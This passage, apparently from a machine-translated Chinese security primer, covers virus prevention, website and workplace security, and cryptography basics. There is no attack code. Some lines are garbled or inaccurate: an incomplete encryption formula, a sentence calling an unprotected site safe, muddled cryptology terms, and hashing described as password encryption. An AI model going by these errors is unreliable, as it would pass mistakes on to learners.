-   无意病毒分发 – 如今，互联网使得无论个人位于何处，分享软件都变得更容易。然而，在网上找到的程序可能会被病毒感染。寄生文件病毒在允许共享文件的环境中运行得完美。宏病毒在互联网上很常见；此外，它们不仅附着在代码上，还附着在数据上，这使得下载这些软件的人很难规避。
-   恶意病毒传播 – 在互联网上传播病毒的另一种方式是通过个人通过感染的程序传播这些病毒。黑客、网络犯罪分子或病毒创建者将互联网作为释放其破坏行为的完美场所。

## 如何防止计算机病毒

到目前为止，在本章中，我们已经了解了病毒会对我们的计算机系统造成什么影响。线上有各种防病毒软件，你可以使用它们来解决病毒问题。然而，我想向你展示预防计算机病毒和保护你在线隐私的重要方法。

重要的是，计算机病毒和恶意软件并不是一回事。虽然计算机病毒是一种自我复制并影响文件和程序的程序，但恶意软件的设计目的是拒绝或破坏计算机系统的运行。此外，恶意软件会获取你的系统资源以收集相关信息。大多数防病毒软件并不具备检测和处理恶意软件的功能。为了避免任何形式的攻击，遵循这些处理计算机病毒的预防方法是非常重要的。

### 经常更新你的计算机
对计算机程序进行自动更新是非常重要的，因为这些更新带有安全补丁，可以处理你计算机中任何可能的安全漏洞。我理解更新程序可能是很痛苦的，因为它们特别是在你编写重要程序时弹出。无论它们有多么不便，更新它们都是很有意义的。在病毒困扰你之前，最好将它们置于正确的位置。

### 避免使用 Internet Explorer
今天，我们有许多浏览器供用户选择。你可以选择 `Firefox`、`Chrome`、`Opera` 或 `Brava`，而不是使用 `internet explorer`。

### 执行持续备份
不需要任何人告诉你备份计算机有多么重要。如果你实施了高质量的备份策略，病毒将很难给你造成太大困难。有时，病毒会影响你的操作系统，如果你不备份，你最终将丢失所有数据。一旦病毒影响了你的操作系统，最好的建议将重新安装操作系统。因此，养成备份计算机的习惯。

### 安装高级防病毒软件
如果你想保护你的数据并提高你的在线隐私，你应该避免使用免费的防病毒软件。努力购买高级防病毒软件，并定期更新它们的病毒程序和定义。你可以为个人电脑选择的一些有效防病毒软件包括 `Avira`、`Kaspersky`、`Bitdefender`、`Avast Pro`、`Symantec Norton`、`McAfee` 和 `Webroot security anywhere antivirus`。

### 扫描邮件或图片附件
如果你习惯下载附件，请尽可能限制此类下载。黑客可以通过你的电子邮件破解你的账户；一旦他们做到了，就可以利用你地址中的联系人进行各种恶意活动。

### 避免任何可疑网站
今天，我们有超过万亿个网站可用；访问其中某些网站时小心至关重要，因为你无法判断图片是否包含恶意内容。此外，在访问之前要验证网站。例如，`Microsoft.com` 与 `Microsoft.tisur.com` 不同。

在使用计算机网络时，避免麻烦应该是你的首要任务。你通过下载这本书来教育自己，已经朝着正确的方向迈了一步。但是，你必须知道每天都有新病毒发布。虽然很难获得完美的病毒防护，但遵循这里的几个步骤对保护你的数据和在线隐私非常有帮助。

## 结论

计算机病毒的后果会给你的计算机系统带来遗憾和损害。此外，如果它没有毁掉整个系统，让一切恢复正常也需要数千美元。目前存在多种病毒，它们以不同的方式影响你的计算机系统。

然而，每个人在确保自己的设备没有病毒方面都起着作用。为了保护你的计算机，你应该安装防病毒软件，它会存储恶意软件和病毒程序。此外，努力经常扫描你的计算机，同时根据情况避免使用外部硬盘。解决计算机病毒的代价是昂贵的。这不仅包括你投入的修复时间，还包括对数据的损害。因此，跟上最新的安全提示，并留意病毒的任何迹象，以领先任何迫在眉睫的攻击。

## 第 6 章：网络安全与工作场所安全指南

### 网络安全

遗憾的是，网站很容易受到安全风险。如果你是一个网站所有者，你就面临着风险。这句话并不是为了吓死你，而是为了让你了解我们正面临的现实情况。最近的统计显示，每天有超过 50,000 个网站遭到破坏。在这个阶段，你不能说“这不会发生在我身上”，因为它迟会在将来发生在你身上。大多数小型网站所有者认为，这些黑客有更大的目标要处理，没有理由破解他们的网站。不幸的是，43% 的小微企业是网络犯罪的受害者。

在全球范围内，约 54% 的企业经历过某种网络攻击，只有 38% 随时准备好应对这些攻击。虽然我没有看到未来的魔法水晶；但在未来几年，网络犯罪的威胁将不断增加。尽管如此，你必须采取必要的步骤来扩展你的网站安全。

### 网络安全威胁

网站被破解的方式有很多种。我们有对你网络安全的常见威胁，每个具有安全意识的人都必须采取必要步骤来避免这些威胁。为了帮助你，我编写了通过避免这些威胁可以采取可能的安全措施。

- 垃圾邮件
通常，人们认为垃圾邮件是件烦人的事，因为它们被投送到我们的信箱里。有时，我们在访问电子邮件时会在垃圾邮件箱里看到它们。然而，某些垃圾邮件是黑客故意发送的恶意内容。另一种常见的垃圾邮件形式是大多数网站上的评论。黑客设计了机器人，它们可以轰炸包含链接的网站评论区。这些链接将用户引导到另一个网站，这提供了建立反链的方法。

- 恶意软件和病毒
恶意软件是恶意软件，是网站最大的威胁。令人惊讶的是，这些网络犯罪分子每天创建超过 230,000 个恶意软件。来自 Statista 的以下统计显示了全球网络犯罪分子必须使用的常用恶意软件类型。

| 恶意软件类型 | 遇到次数 (%) |
| :--- | :--- |
| 内存抓取/内存转储 | 16 |
| 下载器 | 14 |
| 远程管理工具 | 9 |
| 注入器 | 9 |
| 键盘记录器 | 8 |
| 机器人 | 7 |
| 远程管理 | 6 |
| 安装程序 | 5 |
| 密码工具 | 5 |
| 反分析分析 | 5 |
| 勒索软件 | 4 |
| 权限提升 | 4 |


# 反向 Shell

从表中可以看到，恶意软件的大小和形状各异，这使得你的网络安全构成了更大的威胁。这些病毒通常会访问你的服务器资源或私有数据。他们利用勒索软件、恶意软件和病毒通过联盟链接和入侵你的网站来获利。如果你受到恶意软件的攻击，你的访问者以及你的网站都面临风险。保护用户并防止他们从你的网站下载任何恶意文件是你的责任。

## WHOIS 域名注册

很多人并知道，购买域名和你想买房子没有区别。在公司将房子卖给你之前，他们必须知道是谁想买，以及与你联系可能的方式。这些信息将成为公共记录，并在需要时可用。

购买域名的运作方式是一样的。然而，这取决于你所在的特定国家，因为你需要提供某些信息以记录在 `WHOIS` 数据中。除了个人详情外，他们可能还需要你的 URL 域名服务器。网络犯罪分子可以利用这些信息来精确定你的服务器位置。有了这些信息，他们就可以访问你的 Web 服务器。

## 拒绝服务攻击 (DoS)

这些攻击旨在阻止用户访问特定网站。通常，这些犯罪分子使用 `spoof IP address` 向服务器加载流量。通过这种方式，网站会离线。一旦实现这一目标，主机必须找到可能的方法来确保服务器运行正常。在此过程中，主机会将服务器暴露在来自恶意软件、勒索软件或病毒的潜在攻击之下。

# 网络安全防御策略

通过两种方法可以实现完美的网络安全。第一种涉及你分配所有所需的资源来对最新的安全问题进行持续警报。这需要一次性完成所有更新和补丁，并对所有现有应用程序进行适当审查。

获取完美网络安全的另一种方法是利用网络扫描解决方案来检查你当前的应用程序、设备和网站代码。这将帮助你查看系统中是否存在任何已知漏洞。在这种情况下，`IPS/IDS`、杀病毒软件和防火墙是有用的。然而，你将获得的最高效投资是网站漏洞扫描和网络扫描。

在必须在这两种策略中选择其一的情况下，网络扫描将比后一种选项提供更好的网站安全水平。

# 保持网站安全的步骤

由于我已让你熟悉了你可能面临的网络安全威胁，因此提供防止这些攻击的方法非常重要。你必须面对这样一种假设：如果没有采取任何措施来提高安全性，那么网站就是安全的。为了提高你的网络安全，有必要的步骤可以帮助到你。如果你想保护你的网站，就应该实施这些步骤。

## 使用 HTTPS 协议

万一你的网站没有运行在此协议上，那么你需要改变这种状况。该协议告诉你的访问者，他们在与你的网站交互时是安全的。此外，他们知道自己的信息是安全的，没有人可以中断或更改内容。

如果你的网站没有 `https` 协议，它就容易受到黑客攻击，黑客可以更改你的页面信息来收集敏感信息。例如，他们可以窃取你的登录信息以及用户的登录信息。拥有 `https` 协议的好处是，它不仅能保护你的网站，还能提高你的搜索排名。有趣的是，`Google` 会奖励使用这种协议的人。这就像对孩子每做一件好事就给糖吃一样。

此外，人们乐于访问带有 `HTTPS` 协议的网站，因为该网站是信赖且安全的。如果你想超级保护你的网站，可以将 `HTTPS` 协议与安全套接层 (`SSL`) 证书结合。如果你运行电子商务网站，则需要 `SSL`，因为用户将提交姓名、地址和信用卡号等敏感信息。

虽然使用 `SSL` 证书是一个很好的预防措施，但它并不能防止你任何可能的攻击。相反，它加密了浏览器与服务器之间的通信。即使你没有使用电子商务网站，也建议将 `HTTPs` 协议和 `SSL` 证书结合。

## 更新你的软件和应用程序

如果你在网站上使用某种应用程序或软件，你应该确保不断更新它。如果你使用 `WordPress`，你需要更新插件、主题以及所有需要更新的内容。

进行这些更新的原因是为了修复任何故障或漏洞，以及进行任何升级或改进。没有任何软件或应用程序是完美的。网络犯罪分子正在寻找攻击不受保护网站的方法。你不应该让网站处于脆弱状态，因为大多数网络攻击都是自动化的。这些网络犯罪分子使用机器人扫描毫无防备站点。因此，请将你的软件更新到最新版本，以避免任何潜在攻击。

## 选择安全的虚拟主机计划

如果你的主机提供商重视其服务器的安全，你将获得某种程度的保护。但在大多数情况下，这并没有发生。考虑到价格，购买共享主机计划很有吸引力。尽管如此，这可能不是网站安全的最佳选择，因为你与其他网站所有者共享服务器。

这种选项的危险在于，如果某个特定网站受到病毒、恶意软件或勒索软件的攻击，你的网站并不能幸免。借此，这些黑客可以通过共享服务器访问你的网站。不要误会我，我不是说使用共享主机计划是错误的，但如果你想提高网站的安全性，这不是要考虑的完美选项。

## 修改你的密码

考虑到过去五年内日益增长的安全威胁，这种预防措施再强调也不为过。仅仅更改密码是不够的，而是要使用不同特殊字符的组合，包括 `*&$@!`。大多数人的做法是对他们访问的每个网站使用相同的密码。


现在显而易见，办公室和组织安全是我们现代职场面临的首要关注问题。然而，对于大多数经理和企业所有者来说，制定一套全位的职场安全政策似乎是遥不可及的，特别是对于不熟悉各种安全发展和行业术语的个人来说。幸运的是，如果我们使用正确的工具，就有一个起点。不过，在起草职场政策之前，了解办公室和组织安全的各个方面至关重要。之后，我将开始介绍细节，包括访问控制、物理安全和报警系统。

## 理解办公室和组织安全政策

要在工作环境中建立安全感，拥有一职场安全政策至关重要。无论你的公司规模、专业领域或业务类型如何，只要有清晰的网络安全政策，你的工作场所就能从中受益。该政策必须明确组织的安全目标，包括其内部和外部威胁。此外，这些政策必须得到执行，因为它们可以帮助避免无数的安全挑战。有效的政策将概述基本的指令、指南和定义，这些内容在整个组织中保持一致。例如：可接受密码、IT 员工的网络培训、全体员工的安全意识，以及设置适当程序以确保物理和数字安全。

## 数字安全

提高职场网络安全是保护你的办公室和组织的第一步。这包括对数据、信息以及工作场所非物理方面的保护。你可以从购买自己的服务器开始，确保计算机和网络的安全。拥有自己的服务器的好处很大，因为它为你提供了建立安全网络的机会，并保护你的隐私和数据。此外，在最新的数字实践中，教育员工也非常重要，包括避免钓鱼邮件的方法以及为他们在线使用的任何账户创建强密码。

此外，通过一个良好的 `Wi-Fi` 网络，你可以让你的物理安全系统在线。这意味着你始终受到保护之中。如果你决定投资一套优质的访问控制系统，你需要一个可靠的网络，它将使你的安全设备具备快速通信并在不出现任何问题的情况下验证身份的能力。如果你能正确设置数字安全，你的工作场所将面临极少的网络安全挑战。

## 物理安全

无疑，物理安全是职场安全中重要的组成部分。它涵盖了许多不同方面，包括防盗措施、安全规定、防火保护等；虽然数字安全在职场中很重要，但物理安全是第一道防线。拥有一全面的物理安全程序至关重要，因为有助于减少保险索赔、关闭、责任承担以及可能影响你业务或组织的安全支出。可靠的物理安全政策必须根据情况明确概述身份认证、员工访问、报警系统和设施要求。

所有服务器、客户数据、数据存储、业务策略文件、客户合同和知识产权都容易受到物理威胁的损坏和盗窃。万一发生火灾或有入侵者进入你的办公室、安全文件室和服务器房，你的计算机可能会被破解。这意味着你的物理安全政策非常重要，因为它控制着你的设施和资产。拥有物理控制政策的优势包括更少的财务损失、降低风险、保护财产和员工，以及在事故发生后的恢复。总而言之，物理安全是必需品，而非奢侈品。

## 访问控制

提高办公室和组织安全的另一种方法是通过实施访问控制系统。访问控制涉及管理进入你工作环境所需的所有事务。尽管这听起来很简单，你可能在想这与网络安全有什么关系？好吧，如果你的网络服务器暴露并被攻击者发现，你将失去敏感信息。重要的是，这对你来说将意味着生意失败，因为客户将不再信任你。然而，一旦你建立了一个良好的安全系统，物理安全的每个方面都可以得到管理，包括员工认证、访客访问等。访问控制程序基本上分为五个阶段，包括授权、认证、访问、管理和审计。必须执行这些不同阶段的过程、条件和标准。

## 第 7 章：密码学基本概念

在本章中，我将介绍密码学的概念。这个词不必引起任何恐惧，因为它非常容易理解并可以利用它产生优势。惊讶的是，大多数计算机安全术语都有直接的含义，并不复杂。然而，我在本章的目标是帮助你理解即使是复杂的术语，并为你的安全问题提供解决方案。

密码学是一种行为涉及对消息进行编码使其难以阅读。你还记得我提供的关于住在玻璃房子里的例子吗？每个路人都能看到你房子的内容。但是，如果用砖块和石块建造，他们就很难知道你里面有什么。

在过去，密码学是使用手动方法进行的。虽然时代变了，但执行密码学的基本框架并没有太大变化，尽管技术有了显著提高。重要的是，计算机有执行这些算法的能力，从而使过程更安全、更快速。

我们今天有密码学的五种功能。这些包括：

*   **认证**：这涉及证明其身份。它确保接收者有权访问信息。密码学认证包含两种变体——消息认证和实体认证。消息认证识别消息发送者，而不考虑发送消息的任何系统或 `router`。然而，实体认证确保信息已收到。
*   **机密性/隐私**：确保发送的消息仅供目标接收者使用，没有人可以读取。机密性是密码学提供的一种基本安全服务。它保护信息免受未经授权的人员侵害，可以通过各种过程实现，从使用物理技术到数学算法。
*   **完整性**：向接收者保证消息内容相对于原始消息没有任何篡改或更改。未经授权的人可能会故意或无意地更改数据。然而，密码学通过检测特定数据是否被未经授权的人操纵或更改来帮助维护数据完整性。
*   **不可否认性**：一种确定接收者发送了消息机制。
*   **密钥交换**：接收者和发送者之间共享 `crypto keys` 的过程。


在密码学中，我们通常从未加密的数据开始，我们称之为明文。然后，明文被加密成密文，密文后再被解密为可用的明文。整个加密和解密过程是基于所实现的特定密码方案以及所使用的密钥。为了方便理解，我将使用公式来说明加密和解密过程，以便让你更清楚地理解。

假设 `C` 代表密文，`P` 是明文，`k` 是使用的密钥，而 `E` 和 `D` 分别是加密和解密方法。

```
C = Ek
P = Dk
```

当我提到两个通信的双方时，我会使用 `Alice` 和 `Bob` 这两个绰号，因为这是密码学行业通用的术语。如果通信涉及第三和第四个人，那么你可能会听到如 `Carol` 和 `Dave` 等名字。此外，如果在通信过程中存在恶意方，我将把该方称为 `Mallory`。间谍和受信任的第三方将分别被称为 `Eve` 和 `Trent`。如果你清楚了这些术语，我们就可以开始了。

不要忘记，密码学主要涉及用于加密和解密消息的数学算法的创建和开发。另一方面，密码学是对秘密写作的一般研究，而密码分析则是检查和破解加密的科学。

## 密码学的简要演变

早期密码学始于欧洲文艺复兴时期。不同的意大利国家和教皇国有助于加密技术的传播。在此期间，人们研究了用于破解秘密密码的各种查询和攻击方法。其中一种改进是 `Vigenère` 编码，它在 15 世纪备受关注。此外，在 19 世纪，发现了更复杂的加密方法。然而，在 20 世纪，电机械和机械设备的发为信息加密提供了高效且先进手段。最后，在第二次世界大战期间，密码分析和密码学变得极其数学化。

随着世界上各种进步，军事单位、企业机构、政府组织和安全专业人士正在提倡并采用密码学。今天，大多数机构都使用密码学来保护其信息和秘密免受入侵者或攻击者的侵害。

## 密码算法

分类密码算法的方法有多种；但在书中，我将根据实现加密解密过程中使用的密钥数量对它们进行分类。让我们来看看这三种主要的算法类型。

-   对称密钥密码学
-   公钥密码学
-   哈希函数

### 对称密钥密码学

在这种密码算法方法中，我们使用单一密钥来实现加密和解密过程。在下面的图中，你会观察到消息发送者在向接收者发送密文之前，使用密钥加密明文。同样，接收者在发现消息内容之前，使用相同的密钥解密消息。



在这种情况下，密钥兼具加密和解密两个功能。有时，对称密钥密码学被称为对称加密。在这种密码算法中，发送者和接收者必须知道密钥，因为那是消息的秘密。然而，这种方法的挑战在于密钥的分发。尽管如此，许多机构依赖这种方法，特别是当涉及到隐私和机密性时。

### 公钥密码学

> 在网络安全行业，公钥密码学是过去 400 年来密码学领域看到的重大进展之一。斯坦福大学的 Martin Hellman 教授和学生 Whitfield Diffie 在 1976 年首次公开描述公钥密码学。在他们的论文中，他们描述了一种双密钥公共系统，双方可以在不需要共享秘密密钥的情况下，通过不安全的通信通道有效地进行安全通信。

> 公钥密码学依赖于数学函数或单向函数的存在，这种函数更容易计算。然而，如果你想进行破解，它们的逆函数就会复杂得多。让我们看看下面的两个例子。

-   乘法 vs. 因数分解 – 例如，你想计算以下两个质数 `3` 和 `7` 的乘积。执行这个简单的计算不需要花费你任何时间。我们知道答案将是 `21`。假设你有一组两个数字的积为 `21`，你想找到这个数的质因数。当你对两个质数相乘时，花费的时间比寻找两个质因数要短。当你想要寻找 `400` 以上数字的质数时，问题变得更大。

-   幂 vs. 对数 – 假设你想计算 `5` 的 `5` 次方。这不会花费你时间，因为你只需要计算 `5⁵`，它等于 `3125`。但是，如果你从数字 `3125` 开始并决定寻找两个整数，这将花费你很长时间。

> 这两个例子看起来微不足道；然而，它们代表了公钥密码学中使用的函数对，其中包括乘法和幂运算的简单性与使用因数分解和对数的困难之间的对比。使用公钥密码学的技巧在于找到一个陷门。通常，公钥密码学使用两个不同的密钥——一个用于加密，另一个用于解密。大多数用户使用公钥密码学进行密钥交换、认证和不可否认性。公钥密码学的另一个名称是非对称加密。

### 哈希函数

> 消息摘要或哈希函数是一种不使用任何密钥的密码技术；而是使用明文计算出的固定长度哈希值。这使得明文的长度或内容难以恢复。该算法用于提供文件内容的数字指纹。它有助于确保病毒或入侵者没有更改文件内容。大多数操作系统使用哈希函数来加密密码，这进一步提供了一种保证文件内容可靠性的机制。

## 现代密码学


今天，密码学是通信和计算机安全的基石。它是概率论、计算复杂度和数论等各种数学概念的基础。现代密码学有三个主要特征，将其与旧时代的方法区分开来。为了方便阅读，我将以表格的形式呈现出来。

| 古典密码学 | 现代密码学 |
| :--- | :--- |
| 直接在数字和字母等传统字符上操作 | 在二进制位序列上操作 |
| 该技术基于“隐蔽性安全”。这意味着只有参与的双方才知道所使用的特定编码技术。 | 现代密码学依赖公开的数学算法进行信息编码。然而，秘密性仅通过秘密密钥来实现。由于缺乏密钥，入侵者或攻击者很难获取原始信息。此外，算法的计算难度使得入侵者无法获取原始信息。 |
| 古典密码学需要整个密码系统才能进行机密通信。 | 这要求进行私密通信的双方拥有秘密密钥。 |

密码学（Cryptology）是对密码系统的研究，进一步分为两个分支，即密码分析（cryptanalysis）和密码学（cryptography）。我们这本书的重点是密码学，但重要的是要理解密码分析涉及破解密文的艺术与科学。密码学和密码分析共存，任何一个都不会独立存在。然而，正如已经提到的，密码学是指构建能够有效提供信息安全的密码系统的过程。它处理数字数据的安全。有时，密码学也被称为使用数学算法提供基本信息安全服务的机制设计。

## 密码系统

这涉及加密技术的实现及其相关基础设施，以提供信息安全服务。密码系统的另一个名称是加密系统（cipher systems）。在本节中，我将介绍密码系统的简单模型，该模型为传输的信息提供机密性。下图显示了密码系统的基本模型。



上面的图描述了一个发送者意图向接收者发送敏感信息，使得通过任何通道拦截信息的第三方都无法有效提取信息。使用密码系统的主要目标是确保只有发送者和接收者可以解码明文。让我们来看密码系统的要素。

### 密码系统的要素

从图中，我们得到了密码系统的六个基本要素，包括：

* **明文（Plaintext）**：这是在传输过程中必须保护的数据或信息。
* **加密算法（Encryption algorithm）**：这涉及到为任何加密密钥和明文生成密文的数学过程。简单来说，它是一种算法，接收明文并将其转换为带有加密密钥的密文。
* **密文（Ciphertext）**：密文是明文的乱序版本，通过加密算法和加密密钥生成。然而，密文通过各种公共通道时并不受保护。访问通信通道的个人可能会破坏数据或信息。
* **解密算法（Decryption Algorithm）**：这涉及到为任何解密密钥或密文生成特定明文的数学过程。解密算法的作用是将密文和解密密钥作为输入，然后将其转换为明文。
* **加密密钥（Encryption key）**：密钥是一个值，发送者必须知道它才能访问信息。
* **解密密钥（Decryption key）**：密钥是一个接收者必须知道的值。

### 密码系统的类型

根据加密和解密过程，密码系统分为两种。包括对称密钥加密和非对称密钥加密。这类密码系统的主要区别在于加密和解密密钥。然而，对于任何密码系统，加密密钥和解密密钥都是密切相关的。本质上，使用与加密密钥无关的密钥来解密密文是非常困难。

#### 对称密钥加密

在这种密码系统中，加密和解密过程使用相同的密钥。如果你看到对称加密（symmetric cryptography）术语，它意味着对对称密码系统的研究。对称密钥加密方法的包括 `BLOWFISH`、`IDEA`、`Triple-DES` 和数字加密标准 (`DES`)。



在 1970 年之前，各种密码系统使用对称密钥加密。然而，它在今天仍然非常重要并广泛使用。考虑到它相对于非对称密钥加密的优势，有迹象表明这种加密过程将持续。其优势或特征包括：

* 密钥不断变化以防止对系统的任何形式攻击。
* 如果必须交换信息，使用对称密钥加密的双方必须拥有共同密钥。
* 由于密钥使用的位数少于非对称密钥加密，加密和解密过程速度更快。
* 运行对称算法所需的处理能力较低，不像非对称密钥加密。
* 它要求参与双方之间有一种稳健的密钥交换机制。

尽管有这些优势，对称密钥密码系统基本上面临两个挑战。这些包括：

* **信任问题**：考虑到接收者和发送者都需要相同的密钥，这要求双方之间存在不可动摇的信任。例如，接收者可能会在不通知发送者的情况下将密钥交给授权用户。
* **密钥建立**：在任何通信之前，发送者和接收者必须约定一个密钥。这需要一个安全的密钥建立机制使该过程有效。

当你考虑到我刚才提到的这两个挑战时，显然它们是现代通信的障碍。现在，个人需要与不可信和陌生的双方交换信息。这是由于非对称密钥加密方案在发送者接收者之间带来的限制。

#### 非对称密钥加密

这是对称密钥加密的相反，后者加密密信息需要相同的密钥。非对称密钥加密在加密过程中使用不同的密钥。尽管密钥不同，但加密和解密过程在数学上是相关的。因此，使用解密密文获取明文是可行的。下图展示了非对称密钥加密过程的图。



非对称密钥加密在 20 世纪流行，用于解决通信双方之间预共享加密密钥的问题。其特征包括：

* 每个用户必须拥有不同的私钥和公钥。在数学上，密钥是关联的，当你使用其中一个进行加密时，另一个用于将密文解密为原始明文。
* 需要将公钥放置在公共仓库中。
* 虽然公钥和私钥相互关联，但无法从其中一个找到另一个。这种唯一性是非对称系统的优势所在。


- 如果第一个个人需要向另一个人发送信息，该第一个个人必须从存储库中获取第二个人的公钥，然后在传输之前对信息进行加密。
- 第二个人使用他自己的私钥来提取明文。
- 它使用更高的计算机处理能力来运行非对称算法。
- 由于加密过程中涉及的比特数，该过程速度较慢。

## 密码系统攻击

如今，商业活动和我们的日常生活都是信息驱动的。这产生了加强保护关键信息免受恶意活动（包括攻击和数据操纵）影响的需求。为了让你有一个直观的了解，我将阐述你的信息可能遭受的各种攻击，以及确保你避免此类攻击有多重要。这些针对你信息的攻击存在被动攻击或主动攻击的形式。

### 被动攻击

你可能遭遇被动攻击的主要原因是攻击者获得了对你信息的非法访问。例如，被动攻击行为可能包括入侵者对特定通信通道的拦截和窃听。

在本质上，这些攻击是被动的，因为它们不会影响信息或干扰用于传输信息的通信通道。大多数情况下，被动攻击被视为攻击者窃取了你的信息。这种窃取行为与偷取实物物品的主要区别在于，你的数据或信息仍在你手中。如果有人偷了你的手机，你就自动失去了它，而你无法找回它。

虽然对某些人来说，手机手机并不是什么大事，但当涉及到你的信息时，你绝不能轻视。它比偷取任何实体物品或货物都更危险，因为信息的所有者可能不知道其信息已经泄露。



### 主动攻击

这种特定的攻击涉及通过影响原始信息的过程来更改信息。以下示例将让你了解主动攻击的具体包含内容。这包括：

- 使用非法的手段或方法更改信息
- 通过各种介质发起非预期或非法的信息传输
- 修改经过身份验证的数据（如时间戳或发送者姓名）
- 拒绝合法用户访问信息
- 非法删除信息或数据



然而，通过密码学，你可以利用实现密码系统的各种技术和工具来制止这些攻击。

## 攻击者的假设

在进一步讨论之前，强调这些攻击者的某些假设非常重要。你会同意我的观点：在罪犯进入你家之前，他可能假设你没有报警系统、手枪或任何反击他的保护手段。这种情况同样适用于这些攻击者，他们会为了窃取你的信息不择手段。我不想让你一无所知，所以你需要了解密码系统的环境。此外，你必须理解攻击者的假设以及决定攻击者能力的环境。我们关于环境和攻击者的能力有三个基本假设。

### 关于加密方案的信息

密码系统的设计建立在以下加密算法之上：

- 私有算法 – 在此类，只有系统的设计者和用户知道算法的细节
- 公开算法 – 在这种选项中，所有人都知道算法的细节，因为它们处于公共领域

当涉及私有算法时，信息的安全性通过匿名性或隐蔽性来实现。在私有算法的情况下，它们可能较弱，因为开发过程是由内部人员完成的，没有对任何漏洞进行广泛调查。此外，它们仅提供封闭小组之间的通信。正因如此，它们并不适用于现代通信，特别是在有大量未知和已知实体进行通信的领域。

因此，关于任何安全环境的第一个假设是攻击者知道加密算法。

### 密文的可访问性

一旦明文被加密转换为密文，它就会通过不安全的公共通道传输。因此，攻击者显然可以假设他可以通过密码系统访问生成的密文。密文的可访问性是攻击者的第二个假设。

### 明文和密文的可访问性

尽管第三个假设不像前一个那样可以被观察到，但在某些情况下，攻击者可以同时访问明文及其对应的密文。这种情况可能发生在以下场景：

- 攻击者说服发送者在获取密文之前，按照他选择的格式更改或转换明文。
- 接收者无意中向攻击者泄露明文内容。反，攻击者通过开放通道获取了相应的密文。
- 公共密码系统的加密密钥在开放领域可用，任何潜在的攻击者都可能知道该密钥。有了这个密钥，攻击者可以生成相应的明文和密文。

## 密码攻击

在了解密码学的优缺点之前，你必须知道攻击者或黑客的主要意图是破解密码系统，以便从密文中获取明文。所有攻击者获取明文所需的就是找到那个特定的秘密解密密钥。

这使得攻击者运用他所学知识来寻找该密码系统中使用的特定秘密密钥。一旦他做到这一点，该系统就可以被认为已攻破、破解或被黑入。基于此，可以对系统执行各种类型的攻击，我已经帮助你对它们进行了简单的分类，让你知道你可能面临的特定攻击。

### 仅密文攻击

在这种特定的攻击中，攻击者或黑客可以访问一组密文（s）。然而，他无法访问对应的明文。这种攻击只有在攻击者能够从给定的密文（s）中获取相应的明文时才会成功。大多数现代系统都能防止这种形式的攻击。

### 已知明文攻击

在这种特定的策略中，攻击者可以访问部分密文的明文。这种攻击的主要工作是攻击者根据他收集的信息解密剩余的密文。“已知明文攻击”的一个常见例子是针对分组密码的线性密码分析。

### 字典攻击

此类攻击有许多变体，但它们都涉及收集一个“字典”。攻击者使用一种简单的方法，构建密文及其明文的字典，这些可能是他们长期以来学到的。将来，一旦攻击者获取了密文，他就会查看他创建的字典以寻找任何对应的明文。

### 暴力破解攻击


在这次攻击中，攻击者尽一切努力通过尝试所有可能的密钥来确定密钥密钥。假设密钥的长度为 8 位，那么可能的密钥数量将为 2⁸，等同于 256。在攻击者已知密文和算法的情况下，他会尝试所有 256 个可能的密钥进行解密。然而，攻击者完成这次攻击所需的时间非常长，因为他必须尝试每一个密钥。

### 中间人攻击

攻击者在这次攻击中的主要关注点大多是公钥加密系统，特别是在通信发生前必须交换密钥的领域。例如，主机 X 想要向主机 Y 发送消息，从而请求主机 Y 的公钥。此时攻击者拦截了来自主机 X 的请求，并代替主机 Y 发送了密钥。由于由于，无论主机 X 发送给主机 Y 什么内容，攻击者都可以访问读取。为了维持两个主机之间的通信过程，攻击者在读取信息后会将其重新加密并发送给主机 Y。攻击者发送他们自己的公钥作为来自主机 X 的密钥，以欺骗主机 Y 认为消息来自主机 X。

数字 学数字签名

你是否曾经在物理上签署过文档？你是否知道这一行为的重要性及其影响？如果这关乎生死，我相信你会理解。嗯，数字签名就像你的手写签名或输入的消息，它是该消息或文档的签名者绑定。这是一种将实体/个人与数字数据或信息绑定在一起的技术。接收者和任何第三方都可以独立验证这种绑定关系。

在物理世界中，当我们签署文档时，这是一种保证，证明该消息来自发送者，且不应对对原始消息有任何否认。在数字签名的情况下，签名者只知道私钥。

数字签名系统的模型基于公钥加密，下图显示了涉及的整个过程。



以下是对整个过程执行内容的解释：

- 每个执行数字签名的个人都有他们自己的一对公钥或私钥
